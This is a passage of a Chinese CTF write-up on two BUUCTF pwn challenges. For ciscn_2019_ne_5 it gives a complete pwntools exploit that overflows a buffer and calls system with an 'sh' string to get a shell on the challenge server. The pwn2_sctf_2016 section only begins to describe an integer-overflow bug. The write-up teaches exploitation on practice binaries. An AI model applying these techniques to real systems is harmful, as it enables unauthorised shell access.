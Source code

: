 # ciscn_2019_ne_5

开始首先想到的是ret2libc，想要泄露出puts的真实地址，结果失败了，因为puts在got表中的地址开头是0x20(空格)，在scanf读入的时候就被截断了

![2](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041736471.png)

那换成fflush在got表中的地址行不行呢，试了后发现是不行……

下面才是正解：

程序本身存在fflush函数，我们可以直接用它的'sh'来当作system的参数

第一次听说'sh'也行……验证如下：

![1](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041736123.png)

'sh'在这里：

![image-20210325152900698](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041736804.png)

exp如下：

```
from pwn import *
context(arch = 'i386', os = 'linux', log_level = 'debug')
p = process('./pwn')
e = ELF('./pwn')
libc = ELF('libc-2.27.so')
p = remote('node3.buuoj.cn', 26544)
p.recvuntil("Please input admin password:")
p.sendline("administrator")
p.recvuntil("0.Exit\n:")
p.sendline(b'1')
p.recvuntil("Please input new log info:")
system_plt_addr = e.plt['system']
sh_addr = 0x080482EA
payload = b'a' * 76 + p32(system_plt_addr) + p32(0xdeadbeef) + p32(sh_addr)
p.sendline(payload)
p.recvuntil("0.Exit\n:")
p.sendline(b'4')
p.interactive()
```

# pwn2_sctf_2016

整数溢出

![image-20210325212425076](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041737425.png)

第一次输入长度不超过四位的整数，在get_n函数中对输入的数字做出了限制，一个一个读入数字，且不能是'\0'

第一次输入的数字不能大于32，这显然不够溢出，但是可以注意到，get_n函数第二个实参v2是有符号的，而在函数中转变成无符号类型

![image-20210325212820362](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041737044.png)
